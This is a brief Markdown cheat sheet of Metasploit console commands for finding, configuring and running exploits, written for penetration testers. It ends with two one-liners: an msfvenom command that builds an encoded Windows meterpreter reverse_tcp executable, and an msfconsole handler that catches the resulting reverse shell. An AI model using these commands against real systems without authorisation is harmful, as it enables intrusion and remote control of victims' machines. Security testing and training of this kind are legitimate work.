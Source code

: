 # Metasploit

## Show all exploits that for a vulnerability

```shell
grep <vulnerability> show exploits
```

## Select an exploit to use

```shell
use <exploit>
```

## See the current settings for a selected exploit

```shell
show options
```

## See compatible payloads for a selected exploit

```shell
show payloads
```

## Set the payload for a selected exploit

```shell
set payload <payload>
```

## Set setting for a selected exploit 

```shell
set <option> <value>
```

## Run the exploit

```shell
exploit
```

## One liner to create/generate a payload for windows

```shell
msfvenom --arch x86 --platform windows --payload windows/meterpreter/reverse_tcp LHOST=<listening_host> LPORT=<listening_port> --bad-chars “\x00” --encoder x86/shikata_ga_nai --iterations 10 --format exe --out /path/
```

## One liner start meterpreter

```shell
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST <listening_host>;set LPORT <listening_port>;run;"
```
